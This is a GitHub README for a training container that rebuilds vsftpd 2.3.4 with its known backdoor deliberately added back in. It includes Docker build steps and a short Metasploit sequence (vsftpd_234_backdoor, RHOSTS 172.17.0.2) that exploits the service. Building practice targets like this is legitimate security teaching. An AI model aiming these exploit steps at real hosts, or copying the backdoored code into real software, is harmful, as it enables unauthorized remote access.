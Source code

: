 # vsftpd-2.3.4-container
Alpine Linux based container image with a vulnerable version of vsftpd-2.3.4 for use in cybersecurity training environments. Supports both amd64 and armv8 architectures.

## Changes to source code

Downloaded official source code from: https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz

The official source release of 2.3.4 (above link) doesn't have the vulnerable backdoor and I couldn't find an official source for it.

However I did find another Github user's repo with the infected version: https://github.com/nikdubois/vsftpd-2.3.4-infected/commit/e084c9543947d9509ea74731adca427418604cc2 which I've incorporated into `strc.c` and `sysdeputil.c` in order to make it exploitable using msf. 

Other changes are made to source to make it build with the Alpine C library in the Dockerfile during container image build.

## Docker build & run

```
git clone https://github.com/clintmint/vsftpd-2.3.4-container.git
cd vsftpd-2.3.4-container
docker build -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
docker run --name vsftpd-2.3.4 -it <docker-hub-username>/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Exploiting with msf

```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdooruse exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.17.0.2
exploit
````

## Multi-architecture build and push for linux/amd64 (Intel/AMD CPUs) and linux/arm64 (for Macs using M1 chip)

```
docker login
docker buildx create --use
docker buildx build --platform linux/amd64,linux/arm64 --push -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
```
